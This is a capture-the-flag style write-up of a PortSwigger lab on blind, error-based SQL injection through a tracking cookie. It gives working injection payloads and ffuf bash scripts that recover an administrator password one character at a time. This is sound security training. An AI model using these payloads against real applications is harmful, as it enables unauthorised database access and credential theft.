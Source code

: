 # Blind SQL injection with conditional errors

**Lab Url**: [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

![Lab Description](img/lab-description.png)

## Analysis

According to the lab description, the application uses a tracking cookie for analytics and performs an SQL query containing the value of the submitted cookie. If the SQL query causes an error, then the application returns a custom error message.

**First, let's determine how many columns the query returns using the below payload.**

```bash
TrackingId=YOUR-TRACKING-ID'+ORDER+BY+1+--
```

In my case, the query returns only one column.

The second step is to determine which database is the application using. You can use [this cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to craft a payload that determines the database type.

```bash
TrackingId=YOUR-TRACKING-ID'+UNION+SELECT+banner+FROM+v$version+--
```

## Solution

Now that we know which database the application is running and how many columns the query returns. We can move forward and craft a payload that returns an error if a certain condition is true.

Like in the below payload if username `administrator` exists on table `users` it will cause an `Internal server error`.

```bash
TrackingId=YOUR-TRACKING-ID'+UNION+(SELECT+CASE+WHEN+(username='administrator')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users)+--
```

*Use the below command to determine the length of the administrator password.*

```bash
#!/bin/bash

echo {0..30} | tr ' ' '\n' > range.txt

ffuf -X GET \
    -u https://YOUR-LAB-ID.web-security-academy.net \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'+UNION+(SELECT+CASE+WHEN+(username='administrator'+AND+length(password)=FUZZ)+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users)+--" \
    -w range.txt \
    -mc 500
```

**After determining the length of the password extract the administrator's password character by character.**

```bash
#!/bin/bash

echo {0..9} {a..z} {A..Z} | tr ' ' '\n' > chars.txt

end=YOUR-PASSWORD-LENGTH

for i in $(seq 1 "$end"); do
ffuf -X GET \
        -u https://YOUR-LAB-ID.web-security-academy.net \
        -H "Cookie: TrackingId=YOUR-TRACKING-ID'+UNION+(SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,$i,1)='FUZZ')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users)+--" \
        -w chars.txt \
        -mc 500
done
```

After extracting the administrator password login to solve this lab.

![Lab Solved](img/lab-solved.png)
